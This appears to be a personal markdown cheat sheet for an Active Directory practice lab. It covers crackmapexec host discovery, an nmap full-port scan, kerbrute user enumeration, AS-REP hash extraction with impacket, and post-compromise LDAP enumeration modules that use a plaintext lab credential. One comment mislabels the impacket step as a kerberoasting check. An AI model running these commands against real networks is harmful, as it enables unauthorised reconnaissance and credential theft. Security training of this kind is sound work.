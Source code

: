 # Getting ips with crackmapexec

```bash
# For Windows machines
crackmapexec smb 192.168.10.0/24

# For linux machines
crackmapexec smb 192.168.10.0/24
```

---

# Quick checking open ports

```bash
nmap -v -p- --min-rate=1000 -T4 192.168.10.123
```

---

# Quick user list check if DC is reachable (domain is in the result from `crackmapexec`)

```bash
kerbrute userenum -d essos.local --dc 192.168.10.10 users.txt
```

# Also checking straight off the bat if there are kerberoastable users

```bash
impacket-GetNPUsers -dc-ip 192.168.10.10 essos.local/ -usersfile users.txt -format hashcat
```

---

# Good to know crackmapexec after machine Pwned!

```bash
cme ldap 192.168.10.10 -u leon -p 'rabbit:)' -M maq
cme ldap 192.168.10.10 -u leon -p 'rabbit:)' -M adcs
cme ldap 192.168.10.10 -u leon -p 'rabbit:)' -M enum_trusts
```

